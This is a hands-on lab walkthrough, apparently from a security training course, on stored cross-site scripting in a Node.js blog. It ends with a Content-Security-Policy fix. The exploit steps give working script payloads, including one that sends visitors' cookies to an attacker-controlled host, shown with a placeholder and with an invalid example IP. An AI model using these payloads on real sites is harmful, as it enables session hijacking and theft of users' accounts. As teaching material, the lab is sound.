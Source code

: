 ```yaml
---
title: XSS Persistent
serverId: xssStored
language: node
---
```


# Let's try out Stored Cross-Site Scripting.

## EXPLORE

The rightmost browser window has a Public Blog Post Site.
To add a new post click the "Add" button and type in the new post content.
After the post is saved in the backend server a new entry in public Blog Post would appear with the content that we just provided.

You can explore and add more posts.

## Exploit

### Step 1:

Now to see if the input is not sanitized properly before storing it in the backend we type in the below code as input for the blog post.

```html
<script>
  alert('popup text');
</script>
```

After you enter the above text you'll get a pop up with text "popup text", which indicates that this public Blog Post is vulnerable to executable javascript via public posts.

### Step 2

This Blog is Vulnerable to many exploits. We focus on Cookie Stealing.

next, to check if the public post has a users session we type the following text as a new blog post.

```html
<script>
  alert(document.cookie);
</script>
```

After you enter the above text you'll see a pop with the cookie.

### Step 3

For Malicious attacker to exploit this vulnerability and save the session cookies of anyone who visits this public post we have to get the cookie and pass it to some hacker server that would store it.
To Simulate such an attack, replace {HACKER_SERVER_HOST} with the IP address of the terminals public IP and post it as a new blog post.

```html
<script>
  document.write(
    '<img src="http://{HACKER_SERVER_HOST}:5000/hacker_server/submit_cookie?cookie=' +
      escape(document.cookie) +
      '" />',
  );
</script>
```

for ex:

```html
<script>
  document.write(
    '<img src="http://72.56.45.584:5000/hacker_server/submit_cookie?cookie=' +
      escape(document.cookie) +
      '" />',
  );
</script>
```

lets break the above text down

- document.write is going to dump it's content as plain text.
- img tag's src contains the endpoint where the hacker server is listening for incomming stolen cookie information.
- the query parameter 'cookie' is used and it's value is escaped to make the cookie value single query value in case the cookie value contains '&'.
- The img src url is going to save the cookie in a text file and serve the blog website an image.

### Step 4

After the above post have been published, anyone who'll visit the Public Blog Post would send their cookie information to hacker_server.
To verify the saved cookies type the following command in the terminal.

```
cat /app/hacker_server/cookies.txt
```

if this Public Blog Post would have had some sensitive user information or some monetary shopping transactions.
then the hacker would be able to [hijack the user session](https://www.netsparker.com/blog/web-security/session-hijacking/#:~:text=Session%20hijacking%20is%20an%20attack,ends%20when%20you%20log%20out.) and do all sorts of harm.

## Mitigate

The Node.js Server for our Public Blog Post has No [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). To Enable the CSP do the following

- navigate to /app/routes/index.js's line number 16 via.

```sh
vim /app/routes/index.js +16
```

- and uncomment the line with the following code

```js
res.setHeader('Content-Security-Policy', "script-src 'self'");
```

the above line restricts the browser to only execute javascript served from the site's own origin and blocks any inline javascript. Hence mitigating the XSS vulnerability.
